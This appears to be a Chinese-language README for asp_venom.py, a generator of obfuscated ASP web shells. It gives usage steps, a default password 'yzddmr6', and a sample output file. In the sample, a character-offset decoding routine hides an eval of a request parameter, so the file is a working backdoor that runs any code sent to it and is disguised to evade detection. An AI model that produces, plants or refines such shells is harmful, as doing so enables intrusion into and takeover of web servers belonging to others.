 ## 用法


`python3 asp_venom.py > test.asp`


即在当前目录下生成test.asp

## 默认密码:yzddmr6

可自行修改

## 生成样例:

```
<%
<!--
Function Hsnh(Bjhu):
	Bjhu = Split(Bjhu,"|")
	For x=1 To Ubound(Bjhu)
		Hsnh=Hsnh&Chr(Bjhu(x)-31)
	Next
End Function
EXecutE(Hsnh("|132|149|128|139|63|145|132|144|148|132|146|147|71|65|152|153|131|131|140|145|85|65|72"))
-->
%>
```
